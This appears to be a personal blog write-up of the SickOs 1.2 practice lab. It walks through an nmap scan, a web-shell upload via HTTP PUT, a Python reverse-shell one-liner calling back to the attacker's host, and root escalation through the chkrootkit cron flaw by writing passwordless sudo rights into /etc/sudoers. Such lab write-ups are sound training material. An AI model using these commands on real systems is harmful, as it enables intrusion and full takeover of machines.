 ```yaml
---
title: "SickOs 1.2"
layout: post
date: 2017-11-21
image: /assets/images/markdown.jpg
headerImage: false
tag:
- Writeup
- Pentest
category: blog
author: marioibarra
description:  SickOs 1.2 Writeup
---
```


# SickOs 1.2 Writeup



## Recon & Enumeration

An NMAP scan revealed 2 ports open on the target.

<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~/oscp/exam/10.10.10.12$ cat 10.10.10.12.nmap 
# Nmap 7.60 scan initiated Mon Nov  6 01:57:20 2017 as: nmap -sV -O -oN /home/mario/oscp/exam/10.10.10.12/10.10.10.12.nmap 10.10.10.12
Nmap scan report for 10.10.10.12
Host is up (0.00042s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    lighttpd 1.4.28
MAC Address: 00:0C:29:8A:41:77 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.8, Linux 3.16 - 4.6, Linux 3.2 - 4.8, Linux 4.4
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  6 01:57:47 2017 -- 1 IP address (1 host up) scanned in 28.00 seconds
</code></pre></figure>

After enumerating the http service <b>lighttpd</b>, a <b>/test/</b> directory was found.

![image](/assets/images/sickos1.2/test.png)

I checked for the PUT option was enabled on the directory with curl.

![image](/assets/images/sickos1.2/curl.png)




## Exploitation

PUT was in fact enabled, so I put a web shell on the directory that can execute linux commands.

![image](/assets/images/sickos1.2/put-test.png)

![image](/assets/images/sickos1.2/put-test2.png)


By accessing the web shell, I could execute commands directly on the target.

![image](/assets/images/sickos1.2/cmd.png)


Using the same web shell, I sent this python reverse shell to my machine:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.22",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I received the reverse shell with netcat.

![image](/assets/images/sickos1.2/www-shell.png)




## Post-Exploitation

I escaped the restricted shell by spawning a tty shell using python:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

After running my enumeration scripts and searching for possible privilege escalation vectors, I couldn't find any that stood out.  

I then checked the crontab for any applications that I could search on searchsploit.  Under /etc/cron.daily, chkrootkit was listed.

I checked the version of chkrootkit, 0.49, and found an exploit on searchsploit:

```bash
dpkg -l | grep chkrootkit
```

Under the <b>/tmp</b> directory, I created a file called <b>update</b> with commands to add the user <b>www-data</b>, and I made it an executable file:
```bash
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update

chmod +x update
```

The exploit would run the command in the /tmp/update file whenever the cronjob occurred.

Since the cronjob for chkrootkit was run daily, I forced it to run instead of waiting:
```bash
run-parts --report /etc/cron.daily
```

After the cronjob ran, I had root access by running "<b>sudo su</b>" without a password needed.

![image](/assets/images/sickos1.2/root.png)

![image](/assets/images/sickos1.2/flag.png)